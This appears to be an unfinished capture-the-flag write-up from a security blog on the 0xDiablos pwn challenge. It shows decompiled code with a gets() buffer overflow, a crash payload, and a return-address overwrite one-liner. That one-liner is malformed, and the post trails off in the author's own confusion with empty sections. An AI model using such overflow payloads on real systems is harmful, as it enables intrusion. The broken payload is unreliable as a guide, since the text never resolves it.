 [**slyone999’s Security Blog**] (https://slyone999.github.io)

[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)


# Info#
Challenge - 0xDiablos
Type - Pwn
# Info
The download contains an executable called vuln. 

When running the application the following happens - 

```
./vuln
You know who are 0xDiablos: 
test
test

```
The application can be examined by either R2 or Ghidra. I used Ghidra 

The main function calls a function called vuln.
This function uses gets.
the gets function is vulnerable to a buffer overflow. 

```
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}
```
The buffer is 180 so by using a bit of python you can fill the buffer. 
python -c "print 'A' * 184" | ./vuln

```
python -c "print 'A' * 184" | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Examining the code you need to get to address 0804bf08(*) 

python -c "print 'A' * 184" + "\x08\xbf\x04\x08" | ./vuln



I am confused !!!
The buffer local_bc is 180 long 



## NMap



### Bash